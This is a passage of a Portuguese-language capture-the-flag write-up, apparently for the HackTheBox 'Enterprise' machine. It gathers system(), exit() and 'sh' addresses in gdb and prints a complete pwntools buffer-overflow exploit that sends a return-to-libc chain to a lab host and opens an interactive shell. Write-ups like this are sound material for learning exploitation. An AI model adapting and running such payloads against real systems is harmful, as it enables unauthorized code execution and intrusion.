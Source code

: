 A ideia é essa... o esqueleto dele pelo menos, agora vamos pegar os dados que precisamos para preencher o system(), exit() e o sh

## Pegando valores

Bom, eu havia dia anteriormente que iriamos utilizar da técnica de ret2libc, mas não temos os binários instalados na máquina, e mesmo se colocarmos os estáticos creio que não vai da certo, então vamos utilizar de outra técnica a ret2self, onde eu pego endereços do próprio binário para executá-los arbitrariamente

Para isso vamos entrar no gdb dentro da máquina e pegar esses valores...

`p system` - 0xf7e4c060

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-enterprise/E_valor.png)

`p exit` - 0xf7e3faf0

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-enterprise/E_valor1.png)

`find &system,+9999999, "sh"` - 0xf7f6ddd5

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-enterprise/E_valor2.png)

exploit.py
```
from pwn import *
HOST, PORT = '10.10.10.61', 32812

# Montagem do payload a ser enviado - EIP 212

lixo = '\x90' * 212
ret2libc = p32(0xf7e4c060) # system()
ret2libc += p32(0xf7e3faf0) # exit()
ret2libc += p32(0xf7f6ddd5) # sh

exploit = lixo + ret2libc

# Agora vamos montar a interacao ate o momento do buffer

r = remote(HOST, PORT)
r.recvuntil("Enter Bridge Access Code:")
r.sendline("picarda1")
r.recvuntil("Waiting for input:")
r.sendline("4")
r.recvuntil("Enter Security Override:")

# Agora enviamos o payload

r.sendline(exploit)

# Agora tornarmos o shell interativo

r.interactive()
```
